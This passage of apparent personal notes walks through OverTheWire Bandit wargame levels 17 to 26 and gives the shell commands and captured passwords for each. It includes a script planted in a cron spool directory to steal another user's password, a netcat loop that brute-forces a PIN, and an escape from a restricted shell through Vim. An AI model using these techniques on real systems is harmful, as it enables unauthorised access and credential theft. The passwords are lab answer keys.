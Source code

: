  * (locally) `ssh bandit17@bandit.labs.overthewire.org -p 2220 -i .\bandit17.pem`
* Level 17 = `diff passwords.old passwords.new` (**x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO**)
* Level 18
  * (optional) `scp -P 2220 bandit18@bandit.labs.overthewire.org:~/.bashrc .\bashrc.txt` (retrieves offending rc file)
  * `ssh -t bandit18@bandit.labs.overthewire.org -p 2220 ls` (_~/readme_)
  * `ssh -t bandit18@bandit.labs.overthewire.org -p 2220 cat readme` (**cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8**)
* Level 19 = `./bandit20-do cat /etc/bandit_pass/bandit20` (**0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO**)
* Level 20
  * Two terminals solution (ie two Windows Terminal, or via `tmux`, `Ctrl + b, "`, `Ctrl + b, ↑↓`)
    * (from a secondary terminal) `nc -l 2097` = star a TCP server
    * `./suconnect 2097` = connects client to server
    * (in secondary terminal) `0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO` (**EeoULMCra2q0dSkYj561DX7s1CpBuOBt**)
  * Single terminal solution (uses a temp file)
    * `( echo 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO | nc -l 2097 > /tmp/koko/bandit21.pass ) &` = starts background TCP listen with data sitting in pipe buffer
    * `./suconnect 2097`
    * (optional) `wait`, however `netcat` will prompty terminates on its own (since it's not configured to keep running after first connection eg via `-k`, and parent shell will wait for it)
    * `cat /tmp/koko/bandit21.pass` (**EeoULMCra2q0dSkYj561DX7s1CpBuOBt**)
* Level 21
  * `ls /etc/cron.d` = check out cron directory as indicated by objective
  * `cat /etc/cron.d/cronjob_bandit22` = open specific crontab
  * `cat /usr/bin/cronjob_bandit22.sh` = check out script run by crontab every minute
  * `cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv` = contains a copy of password (**tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q**)
* Level 22
  * `ls /etc/cron.d`
  * `cat /etc/cron.d/cronjob_bandit23`
  * `cat /usr/bin/cronjob_bandit23.sh` = see script source, adapt parts of it (see next command)
  * `cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)` (**0Zf11ioIjMVN551jX3CmStKLYqjk54Ga**)
* Level 23
  * `ls /etc/cron.d`
  * `cat /etc/cron.d/cronjob_bandit24`
  * `cat /usr/bin/cronjob_bandit24.sh` = script that executes (bandit23's) then deletes all scripts in foo directory
  * `ls /var/spool/bandit24/foo -l` = foo content is denied
  * `ls /var/spool/bandit24 -l` = foo itself is _drwxrwx-wx_, so we can add new files/scripts
  * `cd /var/spool/bandit24/foo`
  * (optional) `echo -e '#!/bin/bash\nls -l > /tmp/koko/out;chmod 777 /tmp/koko/out' > koko.sh; chmod +x koko.sh` = script to `ls`
  * `echo -e '#!/bin/bash\ncat /etc/bandit_pass/bandit24 > /tmp/koko/out;chmod 777 /tmp/koko/out' > koko.sh; chmod +x koko.sh` = script to password steal
  * `cat /tmp/koko/out` (**gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8**)
  * (optional) `rm /tmp/koko/out`
* Level 24
  * `nc localhost 30002` = connects, sees prompt asking for password & pin
  * `(for pin in {1..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pin"; done) | nc localhost 30002 2> /dev/null` (**iCi86ttT4KSNe1armKiwbQNmB3YJP3q4**)
* Level 25
  * `ls -l` (_bandit26.sshkey_), `exit`
  * `scp -P 2220 bandit25@bandit.labs.overthewire.org:~/bandit26.sshkey ./bandit26.pem`
  * `ssh bandit26@bandit.labs.overthewire.org -p 2220 -i bandit26.pem` = get kicked out immediately
  * (logged as bandit25) `cat /etc/passwd | grep bandit26` (shell _/usr/bin/showtext_)
  * (logged as bandit25) `cat /usr/bin/showtext` = startup shell script
  * `ls -l /usr/bin/showtext /home/bandit26/text.txt`
  * (locally) resize terminal windows until it is smaller than ASCII logo, redo ssh = `more` now pauses "interactively
  * `v` = launches Vim
  * `:e /etc/bandit_pass/bandit26` = edit given file, ie bandit26 password (**s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ**)
* Level 26